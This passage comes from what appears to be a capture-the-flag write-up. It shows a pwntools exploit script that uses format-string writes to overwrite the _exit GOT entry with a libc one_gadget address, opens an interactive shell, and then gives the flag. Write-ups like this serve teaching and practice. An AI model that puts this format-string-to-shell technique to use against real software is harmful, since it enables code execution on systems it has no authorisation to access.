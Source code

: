 ```python 

p.sendlineafter(b'choice: ', b'1')
payload  = f'%{exe.got._exit & 0xffff}c%18$hn'.encode()
p.sendlineafter(b'Index:', payload)
one_gadget = libc.address + 0xe2383
# GDB()

for i in range(3):
    p.sendlineafter(b'choice: ', b'1')
    payload  = f'%{exe.got._exit + i * 2 & 0xffff}c%18$hn'.encode()
    p.sendlineafter(b'Index:', payload)
    p.sendlineafter(b'choice: ', b'1')
    payload  = f'%{one_gadget >> i * 16 & 0xffff}c%22$hn'.encode()
    p.sendlineafter(b'Index:', payload)

p.sendlineafter(b'choice: ', b'4')

p.interactive() 

# FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}
```

## Flag 

FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}
